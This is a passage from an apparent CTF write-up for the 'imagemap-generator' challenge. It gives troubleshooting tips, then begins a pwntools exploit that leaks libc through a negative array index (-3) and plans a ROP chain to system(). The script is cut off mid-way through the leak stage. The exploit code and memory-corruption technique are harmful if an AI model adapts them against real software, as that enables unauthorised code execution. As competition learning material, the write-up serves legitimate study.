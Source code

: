 2. **Is the calculated libc base correct?**
   ```python
   # Should end in 000
   if libc_base & 0xfff != 0:
       log.error("Not page-aligned!")
   ```

3. **Is the offset correct?**
   - Try different offsets: 0x21aaa0, 0x1e85c0, 0x29aaa0

4. **Stack alignment issue?**
   - Add extra `ret` gadgets

5. **Wrong area index?**
   - Try 17 or 19 instead of 18

6. **Wrong padding?**
   - Try 192, 208, 216 instead of 200

---

## Complete Working Exploit

```python
#!/usr/bin/env python3
"""
imagemap-generator exploit
Two-stage attack: Leak libc → ROP to system()
"""
from pwn import *

context.arch = "amd64"
context.log_level = "info"

# Load binaries
elf = ELF('./generator')
libc = ELF('./libc.so.6')

# Connect to target
# For local: p = process(elf.path)
# For remote:
p = remote("imagemap-generator.challs.sekai.team", 1337)

# ========== STAGE 1: LEAK LIBC ==========
log.info("Stage 1: Leaking libc base address")

# Initial setup
p.sendlineafter(b'URL: ', b'1')

# Create one valid area (required)
p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'coordinate: ', b'1')  # x
p.sendlineafter(b'coordinate: ', b'1')  # y
p.sendlineafter(b'width: ', b'1')
p.sendlineafter(b'height: ', b'1')
p.sendlineafter(b'URL: ', b'1')
p.sendlineafter(b'title: ', b'1')

# Leak via area -3
p.sendlineafter(b'choice: ', b'3')
p.sendlineafter(b'edit (1-1): ', b'-3')

# Navigate to height field
p.sendlineafter(b'): ', b'1')  # x
p.sendlineafter(b'): ', b'1')  # y
p.sendlineafter(b'): ', b'1')  # width
```